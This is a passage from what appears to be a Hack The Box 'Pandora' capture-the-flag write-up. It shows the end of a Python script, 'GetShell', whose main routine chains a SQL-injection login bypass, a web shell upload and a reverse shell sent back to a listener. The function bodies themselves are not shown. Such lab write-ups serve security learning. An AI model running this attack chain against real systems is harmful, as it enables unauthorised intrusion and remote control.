 ```python
        print(f"\n{BLUE}[+] SUCCESS: {GREEN}Command sent SUCCESSFULLY! [+]{END}\n")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='GetShell - Pandora / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', type=str, required=True)
    parser.add_argument('-p','--rport', help="Port of the target machine.", type=int, required=True)
    parser.add_argument('-li', '--lhost', help='Local IP address or hostname', type=str, required=True)
    parser.add_argument('-lp', '--lport', help='Local Port to receive the shell', type=int, required=True)

    args = parser.parse_args()

    rhost = args.target
    rport = args.rport
    lhost = args.lhost
    lport = args.lport

    ## Setup the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Here do SQLi for bypass login
    bypassLogin(rhost,rport)

    ## Here up webshell
    uploadWebShell(rhost,rport)

    ## Here inject reverse shell command
    getShell(rhost,rport,lhost,lport)

    
if __name__ == '__main__':
    banner()
    main()
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%2022.png)

More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).